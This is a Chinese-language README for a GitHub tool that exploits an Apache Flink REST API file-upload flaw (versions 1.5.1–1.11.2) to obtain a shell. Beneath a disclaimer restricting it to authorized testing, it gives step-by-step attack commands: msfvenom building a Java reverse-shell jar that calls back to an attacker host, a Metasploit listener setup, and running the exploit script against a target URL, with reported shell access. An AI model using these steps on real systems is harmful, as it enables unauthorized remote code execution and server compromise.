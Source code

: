 # Apache-flink-fileupload-getshell
Apache-Flink文件上传exp，可getshell


# 免责声明
使用本程序请自觉遵守当地法律法规，出现一切后果均与作者无关。

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!

严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

由于用户滥用造成的一切后果与作者无关。

切勿用于非法用途，非法使用造成的一切后果由自己承担，与作者无关。

### 背景介绍
```
Apache Flink是一个面向数据流处理和批量数据处理的可分布式的开源计算框架。它可以用来做批处理，即处理静态的数据集、历史的数据集；也可以用来做流处理，即实时地处理一些实时数据流，实时地产生数据的结果；也可以用来做一些基于事件的应用；该漏洞允许攻击者利用REST API，并通过精心构造的HTTP Header，实现远程文件写入。

影响版本：Apache Flink: 1.5.1 —— 1.11.2
```


### 食用方法

首先需要使用msf生成一个jar包的攻击载荷
```
msfvenom -p java/shell_reverse_tcp lhost=192.168.99.5 lport=4444 -f jar > exp.jar
```

![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/24e8e86b-571b-4670-bae1-83eb89b204e5)


将攻击载荷`exp.jar`放入到python脚本的同级目录下

注：在脚本中攻击载荷的名字写死了为`exp.jar`，使用者若想更换可以修改源码进行更换

攻击载荷生成完成后，在msf上建立监听接受反弹的shell

```
use exploit/multi/handler

set payload java/shell/reverse_tcp

set LHOST 0.0.0.0

set LPORT 4444

exploit
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/63d6b1f9-45ba-4a3b-91ee-d3319c0e361a)


随后执行python脚本
```
 python .\apache_flink文件上传getshell.py -u http://192.168.99.7:8081
```
![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/a1d2474c-78e7-4554-ab65-f9b9f1fa7b6e)


脚本会返回apache-flink的版本信息，若存在漏洞则会上传`exp.jar`包，成功上传后会返回jar包落地的文件名，并且会执行该jar包

执行完攻击载荷就可以在msf上看是否反弹了shell回来

![image](https://github.com/FeiNiao/Apache-flink-fileupload-getshell/assets/66779835/8c367411-c3ce-4043-be51-fcf55629b5f8)

成功反弹shell，并且可以成功执行命令
